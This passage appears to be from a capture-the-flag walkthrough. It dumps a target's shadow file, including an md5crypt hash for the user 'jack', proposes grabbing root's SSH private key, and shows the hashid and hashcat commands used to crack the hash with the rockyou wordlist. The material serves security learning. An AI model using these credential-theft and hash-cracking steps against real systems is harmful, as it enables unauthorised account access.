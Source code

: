 We can see that there is a x on root, so the password must be on the shadow file.

Lets check shadow.txt:

```shell
cat shadow.txt

root:!:18122:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18122:0:99999:7:::
uuidd:*:18122:0:99999:7:::
jack:$1$BH08tSd1$KCDAk8Nwn6PiV78ewyB/M1:18122:0:99999:7:::
sshd:*:18122:0:99999:7:::

```

There is an ! on root. It means the password of this account is locked, meaning we can just access the root account through SSH if we use a id_rsa. Maybe we can still use id.sh to get the id_rsa of root.

But first lets try to crack the hash of jack anyways:

```shell
# Analyze the hash type with hashid first
hashid '$1$BH08tSd1$KCDAk8Nwn6PiV78ewyB/M1'

Analyzing '$1$BH08tSd1$KCDAk8Nwn6PiV78ewyB/M1'
[+] MD5 Crypt 
[+] Cisco-IOS(MD5) 
[+] FreeBSD MD5

# Lets suppose its an MD5 Crypt hash, we can search for the -m on hashcat with the following command
hashcat -h | grep MD5

# There it is, it also says it starts with $1$
   500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)                  | Operating System

# Lets see if we can crack it
hashcat -m 500 jack_hash.txt /usr/share/wordlists/rockyou.txt
```
